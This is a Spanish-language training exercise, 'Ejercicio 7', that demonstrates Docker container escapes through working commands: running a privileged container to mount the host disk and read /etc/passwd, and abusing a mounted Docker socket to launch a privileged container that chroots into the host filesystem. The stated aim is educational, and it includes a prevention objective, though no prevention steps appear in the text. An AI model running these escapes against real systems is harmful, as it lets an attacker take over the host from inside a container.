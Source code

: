 
## EJERCICIO 7: Container Escape Demo

### Objetivos
- Entender cómo funciona un container escape
- Ver el impacto de privileged mode
- Aprender a prevenir

### Pasos

⚠️ **ADVERTENCIA:** Este ejercicio es SOLO con fines educativos. NO ejecutar en sistemas productivos.

#### 7.1 Contenedor Privilegiado

```bash
# Ejecutar contenedor privilegiado
docker run --privileged -it --pid=host ubuntu bash
```

Dentro del contenedor:

```bash
# Ver dispositivos del host
fdisk -l

# Montar disco del host
mkdir /mnt/host
mount /dev/sda1 /mnt/host  # Ajustar según tu sistema

# Leer archivos del host
ls -la /mnt/host
cat /mnt/host/etc/passwd

# DEMOSTRACIÓN: Ahora tienes acceso completo al host
```

#### 7.2 Via Docker Socket

```bash
# Contenedor con Docker socket montado
docker run -v /var/run/docker.sock:/var/run/docker.sock -it docker:latest sh
```

Dentro:

```bash
# Crear contenedor privilegiado con acceso al host
docker run -it --privileged --pid=host --net=host -v /:/host ubuntu chroot /host bash

# Ahora estás en el host, no en el contenedor
hostname
cat /etc/hostname
```
